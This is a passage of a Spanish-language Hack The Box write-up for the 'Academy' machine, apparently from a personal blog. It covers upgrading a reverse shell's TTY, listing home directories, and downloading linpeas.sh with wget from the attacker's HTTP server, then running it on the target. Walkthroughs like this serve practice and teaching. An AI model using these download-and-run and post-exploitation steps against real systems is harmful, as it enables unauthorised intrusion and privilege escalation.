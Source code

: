 En ejecución se veria asi:

![297bash_revSH_tty1](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297bash_revSH_tty1.png)

Y por ultimo indicamos:

```bash
www-data@academy:/var/www/html/htb-academy-dev-01/public$ export TERM=xterm
www-data@academy:/var/www/html/htb-academy-dev-01/public$ export SHELL=bash
www-data@academy:/var/www/html/htb-academy-dev-01/public$ stty rows 43 columns 192 (Esto es para contar con toda la pantalla, depende de la pantalla de cada uno, para verificar abran una terminal y escriban `stty -a`, ahí salen las filas y columnas. El mejor ejemplo del uso de esto es corriendo `nano` antes de ejecutar esta línea)
```

![297bash_revSH_nanoproblem](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297bash_revSH_tty1.png)

Ejecutamos la linea:

![297bash_revSH_nanodone](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/academy/297bash_revSH_nanodone.png)

En este recurso s4vitar lo explica en un video:

* [S4vitar explicando como hacer tratamiento de la TTY](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Ahora si, sigamos:

```bash
www-data@academy:/var/www/html/htb-academy-dev-01/public$ ls -la /home/
total 32
drwxr-xr-x  8 root     root     4096 Aug 10 00:34 .
drwxr-xr-x 20 root     root     4096 Aug  7 12:07 ..
drwxr-xr-x  2 21y4d    21y4d    4096 Aug 10 00:34 21y4d
drwxr-xr-x  2 ch4p     ch4p     4096 Aug 10 00:34 ch4p
drwxr-xr-x  6 cry0l1t3 cry0l1t3 4096 Jan 13 01:36 cry0l1t3
drwxr-xr-x  3 egre55   egre55   4096 Aug 10 23:41 egre55
drwxr-xr-x  2 g0blin   g0blin   4096 Aug 10 00:34 g0blin
drwxr-xr-x  7 mrb3n    mrb3n    4096 Jan 13 01:25 mrb3n
```

Varios usuarios en el sistema, vemos dos que han sido actualizados hace poco, `cry0l1t3` y `mrb3n`. La bandera `user.txt` está en el usuario `cry0l1t3`, vemos como escalar a él...

Subiendo el script de enumeración `linpeas.sh` a la máquina y ejecutándolo conseguimos una contraseña:

```bash
–» python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
www-data@academy:/dev/shm$ wget http://10.10.14.141:8000/linpeas.sh
www-data@academy:/dev/shm$ chmod +x linpeas.sh
www-data@academy:/dev/shm$ ./linpeas.sh
...
```
